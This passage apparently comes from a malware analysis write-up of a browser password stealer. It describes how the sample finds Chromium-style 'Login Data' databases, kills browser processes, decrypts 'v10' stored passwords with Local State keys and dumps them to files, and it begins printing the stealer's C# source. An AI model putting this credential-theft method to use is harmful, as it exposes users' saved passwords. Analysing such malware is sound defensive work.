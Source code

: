 Let’s walk through it:

### **DecryptingBrowsersPasswords**

- Creates a `Passwords` directory under `Variables.temp + Variables.username`.
- Checks if each browser’s `Login Data` file exists (paths like `Variables.LoginDataPathOperaGX`, etc.).
- If the file exists, calls `DecryptBrowserPasswords` with:
    - File path to the database
    - Decryption key from `FunctionsForStealer.LocalStateKeys`
    - Output file name
    - Browser name
    - Variables to track password counts
- Processes all supported browsers individually.
- Results are saved into separate text files per browser.

---

### **DecryptBrowserPasswords**

- Calls `ProcessBrowserKill` to terminate running browser instances.
- Connects to the `Login Data` SQLite database.
- Queries the `logins` table to fetch stored credentials.
- For each login entry:
    - Checks if the encrypted password uses "v10" format with `FunctionsForStealer.FunctionsForDecrypt.IsV10`.
    - If "v10":
        - Prepares nonce and ciphertext using `Prepare`.
        - Decrypts password using `Decrypt` with provided local state key.
- Valid decrypted credentials (URL, username, password) are added to a list.
- Increments `Variables.allFoundPasswords` and `foundPasswordsThisBrowser` counters.
- Writes the credentials into a browser-specific text file (overwriting any existing file).
- Updates `isFoundBrowser` flag based on success or exception caught.

---

### **ProcessBrowserKill**

- Searches for running processes matching the browser's process name.
- Terminates each matched process.
- Waits for the process to fully exit.
- Silently ignores any access or kill errors.

# Stage 4:  FunctionsForStealer

```csharp
using System;
using System.IO;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Security.Cryptography;
using System.Text;
using Main;
using Microsoft.CSharp.RuntimeBinder;
using Newtonsoft.Json;
using Org.BouncyCastle.Crypto.Engines;
using Org.BouncyCastle.Crypto.Modes;
using Org.BouncyCastle.Crypto.Parameters;

namespace Helpers
{
	internal class FunctionsForStealer
	{
		public class LocalStateKeys
```